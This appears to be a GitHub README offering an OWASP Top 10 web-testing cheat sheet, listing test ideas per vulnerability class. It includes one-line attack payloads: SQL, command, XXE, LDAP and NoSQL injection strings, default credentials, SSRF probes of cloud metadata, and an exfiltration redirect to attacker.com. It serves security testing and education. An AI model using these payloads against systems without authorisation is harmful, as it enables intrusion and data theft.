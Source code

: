 

# <img src="https://github.com/Xwal13/OWASP-TOP-10-WEB-SHEET-CHEAT/raw/main/Simpleicons-Team-Simple-Owasp.svg" alt="Custom Icon" width="60" height="60"> OWASP Top 10 Cheat Sheet

---

## 1️⃣ Broken Access Control 🔓  
1. 🆔 **IDOR:** Test if IDs in URLs can access unauthorized data.  
2. 🚫 **Access Control Bypass:** Check restricted pages/APIs.  
3. 🔄 **HTTP Methods:** Test unauthorized methods (PUT, DELETE).  
4. 🕵️ **Forced Browsing:** Access hidden endpoints/admin panels.  
5. 🛠️ **Privilege Escalation:** Check if lower-privilege users can perform admin actions.  

---

## 2️⃣ Cryptographic Failures 🔒  
1. 🗝️ **Hardcoded Secrets:** Check `.env`, `.git` for sensitive keys.  
2. 🛠️ **Weak Algorithms:** Identify MD5, SHA-1, DES in code.  
3. 📡 **Plaintext Transmission:** Detect HTTP transmissions of sensitive data.  
4. 🔐 **Insecure Key Storage:** Find keys in public files/logs.  
5. 🎲 **Predictable Keys:** Verify keys are 32 bytes and random.  
6. 🔄 **Static IV Usage:** Ensure IVs are random and unique.  
7. 🚩 **Missing Signature Validation:** Decode JWT tokens; flag `alg: none`.  

---

## 3️⃣ Security Misconfigurations 🛠️  
1. 🛡️ **Default Credentials:** `admin:admin`, `root:toor`.  
2. 📁 **Sensitive Files:** Check `/robots.txt`, `.env`, `.git`.  
3. 🚪 **Access Control:** Verify `/admin`, `/backup`.  
4. ❗ **Verbose Errors:** Trigger errors with `'`, `\"`, `<script>`.  
5. 🛑 **HTTP Headers:** Check CSP, HSTS, `X-Frame-Options`.  
6. 📡 **Unnecessary Services:** Scan with `nmap` for outdated services.  
7. 🕒 **Outdated Software:** Check versions and CVEs.  

---

## 4️⃣ File Name Enumeration 📂  
- 🔍 **Locate Endpoint:** Identify file path handling endpoints.  
- 🛠️ **Baseline Test:** Request sensitive files like `/etc/passwd`.  
- 🔄 **Modified Request:** Append `_DOESNTEXIST` to file paths.  
- ⚖️ **Compare Responses:** Check error messages for clues.  

---

## 5️⃣ Injection Attacks 💉  
1. 🗄️ **SQL Injection:** Test with `' OR '1'='1' --` and `sqlmap`.  
2. 🖥️ **Command Injection:** Inject `; whoami` or `&& ls`.  
3. 📄 **XXE Injection:** Use `<!ENTITY xxe SYSTEM "file:///etc/passwd">`.  
4. 📚 **LDAP Injection:** Test with `*)(uid=*)`.  
5. 📦 **NoSQL Injection:** Inject `{"$ne": null}` or `{"$gt": ""}`.  

---

## 6️⃣ Insecure Design 🏗️  
1. 🔄 **Business Logic Flaws:** Bypass limits, reorder actions.  
2. 🚪 **Access Control Gaps:** Access admin functions as a user.  
3. 🔗 **Open Redirects:** Test `/redirect?url=http://evil.com`.  
4. 📋 **Predictable Endpoints:** Enumerate `/admin`, `/backup`.  

---

## 7️⃣ Security Logging & Monitoring Failures 📊  
1. 📝 **Insufficient Logging:** Check if auth and admin actions are logged.  
2. 🔓 **Unprotected Logs:** Look for plaintext passwords or tokens.  
3. 🚨 **No Alerts:** Verify alerts for failed logins or privilege escalation.  
4. 🕒 **Audit Trails:** Ensure critical actions are logged.  

---

## 8️⃣ SSRF (Server-Side Request Forgery) 🌐  
1. 🏠 **Internal Access:** Test URLs like `http://127.0.0.1/admin`.  
2. ☁️ **AWS Metadata:** Use `http://169.254.169.254/latest/meta-data/`.  
3. 📡 **Port Scanning:** Test with `http://127.0.0.1:22`.  
4. 🌍 **Data Exfiltration:** Redirect to `http://attacker.com/?data=<sensitive-data>`.  

---

## 9️⃣ Software & Data Integrity Failures 🛠️  
1. 🔒 **Update Integrity:** Verify checksums or signatures for updates.  
2. 🏗️ **CI/CD Security:** Test exposed CI/CD tools.  
3. 📦 **Third-Party Components:** Check if plugins are from trusted sources.  
4. ⚠️ **Deserialization Risks:** Test endpoints handling untrusted data.  

---

## 🔟 Identification & Authentication Failures 🔑  
1. 🔓 **Password Policies:** Test for weak passwords.  
2. 🔐 **MFA:** Check if enforced for sensitive accounts.  
3. 🕵️ **Username Enumeration:** Test login error messages.  
4. 🕒 **Session Security:** Verify token rotation and expiry.  

---

## 1️⃣1️⃣ Vulnerable & Outdated Components 🛠️  
1. 🆕 **Check for Updates:** Verify if libraries are up-to-date.  
2. 🛡️ **Patch Management:** Check if patches are applied.  
3. 🗑️ **EOL Software:** Identify and replace unsupported versions.  
4. 🔍 **Vulnerability Scanning:** Use Dependabot or OWASP Dependency-Check.  

---



## 📚 References

1. [OWASP Official Website](https://owasp.org/) 🌐  
2. [OWASP Top 10 Documentation](https://owasp.org/www-project-top-ten/) 📄  
3. [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) 📋

